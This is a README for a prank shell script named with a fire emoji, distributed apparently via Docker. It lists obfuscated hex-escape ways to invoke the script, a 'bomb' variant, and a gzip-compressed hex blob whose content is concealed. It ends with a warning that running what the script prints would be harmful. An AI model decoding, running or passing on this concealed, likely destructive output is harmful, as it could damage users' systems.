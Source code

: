 # 🔥.sh

[![docker](https://img.shields.io/badge/Docker-🔥-yellow?logo=docker&logoColor=ffffff)](https://hub.docker.com/r/c0m4r/burn.sh)
[![linux](https://img.shields.io/badge/Linux-🔥-orange?logo=linux&logoColor=ffffff)](#🔥)
[![License: 🔥](https://img.shields.io/badge/License-🔥-red.svg)](#🔥)

## 🔥 + 🐋

```
docker run -it --rm --name burn c0m4r/burn.sh
```

## 🔥

```shell
./🔥.sh
./$(printf '\xf0\x9f\x94\xa5.sh')
sh $( ls | grep -P "[\x{1f525}]" )
sh $(echo -e "\xf0\x9f\x94\xa5.sh")
```

## 🔥 + 💣

```shell
./🔥.sh 🔥
./$(printf '\xf0\x9f\x94\xa5.sh') $(printf '\xf0\x9f\x94\xa5')
sh $( ls | grep -P "[\x{1f525}]" ) $( ls | grep -P "[\x{1f525}]" | sed s/\.sh//g )
sh $(echo -e "\xf0\x9f\x94\xa5.sh") $(echo -e "\xf0\x9f\x94\xa5")
```

## 🔥 + 🤫

```c
00000000: 1f8b 0800 0000 0000 0003 0bcd 0b2b f574  .............+.t
00000010: 37cc f174 77ab f2f4 f02a 4b32 0e2c f574  7..tw....*K2.,.t
00000020: 0baa 4c89 f033 0089 fb38 3b79 7919 19a4  ..L..3...8;yy...
00000030: 4706 bb94 e799 06e7 7001 0021 a11e 2231  G.......p..!.."1
00000040: 0000 00                                  ...
```

---

<details>
<summary>🔥</summary>
<p>Just to clarify: this script is harmless (on its own), as long as you don't run what it prints as a command.</p>
</details>
